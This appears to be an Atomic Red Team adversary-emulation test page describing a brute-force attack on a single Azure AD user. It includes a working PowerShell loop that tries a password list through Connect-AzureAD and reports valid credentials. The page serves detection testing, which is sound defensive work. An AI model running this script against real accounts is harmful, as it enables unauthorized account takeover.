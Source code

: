 ## Atomic Test #3 - Brute Force Credentials of single Azure AD user
Attempt to brute force Azure AD user via AzureAD powershell module.

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 5a51ef57-299e-4d62-8e11-2d440df55e69





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Account to bruteforce. We encourage users running this atomic to add a valid microsoft account domain; for eg "bruce.wayne@<valid_ms_account.com>" | string | bruce.wayne@contoso.com|
| passwords | List of passwords we will attempt to brute force with | string | Password1`n1q2w3e4r`nPassword!|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module -Name AzureAD

$passwords = "#{passwords}".split("{`n}")
foreach($password in $passwords) {
  $PWord = ConvertTo-SecureString -String "$password" -AsPlainText -Force
  $Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
  try {
    Write-Host " [-] Attempting ${password} on account #{username}."
    Connect-AzureAD -Credential $Credential 2>&1> $null
    # if credentials aren't correct, it will break just above and goes into catch block, so if we're here we can display success
    Write-Host " [!] #{username}:${password} are valid credentials!`r`n"
    break
  } catch {
    Write-Host " [-] #{username}:${password} invalid credentials.`r`n"
  }
}
Write-Host "End of bruteforce"
```




#### Dependencies:  Run with `powershell`!
##### Description: AzureAD module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name AzureAD -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AzureAD -Force
```
